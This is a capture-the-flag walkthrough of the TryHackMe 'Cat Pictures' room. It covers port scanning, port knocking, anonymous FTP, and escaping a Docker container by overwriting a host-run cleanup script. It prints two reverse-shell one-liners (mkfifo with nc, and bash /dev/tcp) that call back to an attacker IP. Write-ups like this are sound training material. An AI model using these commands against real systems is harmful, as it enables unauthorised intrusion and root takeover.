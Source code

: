 ```yaml
---
title: Cat Pictures
date: 2021-08-07 12:00:00
categories: [CTF, TryHackMe]
tags: [docker,port-knocking]     # TAG names should always be lowercase
image: 
    path: /assets/cat-pictures/cropcat.jpeg
---
```

Link to room: [Cat Pictures](https://tryhackme.com/room/catpictures) 

## Enumeration

Our initial run of `nmap` gives us a small attack surface:

```console 
┌──(user㉿kali-linux-2022-2)-[~]
└─$ nmap -sC -sV 10.10.94.199
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 20:08 EDT
Nmap scan report for 10.10.94.199
Host is up (0.087s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.89 seconds
```

## Port Knocking

Visiting the site on `8080` we find a phpBB instance with one message containing a not-so-subtle hint that we’ll need to use port-knocking. 

![Screenshot 2023-08-06 at 8.18.16 PM.png](/assets/cat-pictures/php.png)

We `apt install knockd` to get the `knock` client and call it with the “magic numbers” provided:

`knock 10.10.94.199 1111 2222 3333 4444`

## Initial Access

Running `nmap` again after knocknig we find an ftp site that allows anonymous login:

```console
└─$ nmap -sC -sV 10.10.94.199                                                                           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 20:18 EDT
Nmap scan report for 10.10.94.199
Host is up (0.087s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.1.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           162 Apr 02  2021 note.txt
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Cat Pictures - Index page
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Logging in to the ftp site as anonymous yields one file, `note.txt` with a clue about how to move forward. 

```console
┌──(user㉿kali-linux-2022-2)-[~]
└─$ cat note.txt
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is [redacted].
- catlover
```

If we try to `ssh` to port 4420 it won’t connect, so we’ll use netcat to make a plain TCP connection. With the credentials supplied above we land in a heavily restricted shell.

```console
┌──(user㉿kali-linux-2022-2)-[~]
└─$ nc 10.10.94.199 4420
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password: [redacted]
Password accepted
```


## Escalation #1

Enumerating a bit we find there is almost nothing to look at, except for one file `runme` in our catlover’s directory. We have permissions to files in this directory so we assume that our account is catlover. 

```bash
ls -la /home/catlover
total 28
drwxr-xr-x 2 0 0  4096 Apr  3  2021 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
```
{: .nolineno }

We can’t run or even examine this file with our current shell……..

```console
runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.

cat runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.
```

so it’s time to upgrade by starting a new listener and call it with  `rm -f /tmp/b; mkfifo /tmp/b; /bin/sh -i 2>&1 0</tmp/b | nc 10.6.1.1 4445 1>/tmp/b`

Back in our new shell we return to examine `runme`. The `strings` command isn’t available in our shell. We could download the file and inspect it locally but it’s not too large so we’ll just use `cat` to see what we can see.  `cat runme`

![runme](/assets/cat-pictures/Screenshot.png)


Scanning a bit we quickly find the string table near the beginning of the binary, and one string in particular that looks like a password.

Executing `runme` with the proper password drops an ssh key in home folder.

```console
# ./runme
Please enter yout password: [redacted]
Welcome, catlover! SSH key transfer queued!
```

We can download this key to our attacker machine or just copy and paste it into a new file. We’ll need to change permissions on the key before we use it: 

`chmod 600 id_rsa`

And we can SSH into the box with `ssh -i id_rsa [catlover@10.10.94.199](mailto:catlover@10.10.94.199)`

## Escalation #2

We find ourselves in a Docker container. We’ve achieved root access, but only retrieved the first flag. Clearly the second flag is on the Docker host machine. 

#### 🐰 Rabbit Hole: Enumerate MariaDB

We find database credentials for MariaDB in the phpBB configuration file. We should enumerate while we’re here. 

`mysql --host mariadb --user=bn_phpbb --password bitnami_phpbb`

Searching through the DB we find the schema for the forum and a test schema. We inspect tables for users, posts, private messages ans drafts but find nothing of value. The database engine is running on a different IP than we are, so we run `system` commands to examine that environment, but this does not lead us out of Docker. 

### Escape the Docker Container

We have a script `clean.sh` in `/opt/clean` . Using `mount` we determine that this folder is mounted from the host OS.

```console
(remote) root@7546fa2336d6:/opt/clean# mount
[...]
/dev/xvda1 on /bitnami/phpbb type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /opt/clean type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro,data=ordered)
[...]
(remote) root@7546fa2336d6:/opt/clean#
```

#### 🐰 Rabbit Hole: Two Shells scenario

We have a shell inside and outside of the container, and there are some exploits in this scenario [as documented on HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells-and-host-mount). Unfortunately our host shell does not have access to the shared mount point to execute scenario #1, and we can’t run `ps` to execute scenario #2.  

Turning our attention back to `clean.sh` we note that it simply empties the `/tmp` directory. 

```bash
#!/bin/bash

rm -rf /tmp/*
```
{: .nolineno }

Adding a file to our local `/tmp` directory and waiting just a few minutes (this is a CTF after all…) we see that the `clean.sh` script isn’t executing against our filesystem in the container. If it’s being called on the host side, this would be a path to escape the container. 

Let’s try sticking a reverse shell in there just in case:

`echo "bash -i >& /dev/tcp/10.6.1.1/4446 0>&1" > clean.sh`

Waiting another minute or two rewards us with a shell triggered by root on the docker host. We find our second flag at `/root` as usual. 

Thanks go out to [gamercat](https://tryhackme.com/p/gamercat) for a fun box!